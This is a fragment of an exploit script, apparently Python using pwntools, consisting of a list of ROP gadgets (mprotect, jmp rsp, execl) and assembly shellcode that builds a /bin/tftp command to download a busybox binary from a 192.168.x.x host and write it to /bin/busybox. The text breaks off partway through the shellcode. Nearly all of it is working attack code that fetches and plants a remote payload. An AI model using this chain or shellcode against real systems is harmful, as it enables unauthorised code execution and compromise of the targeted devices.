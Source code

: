 ```
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t

    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop

''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busybox")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")

    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
```
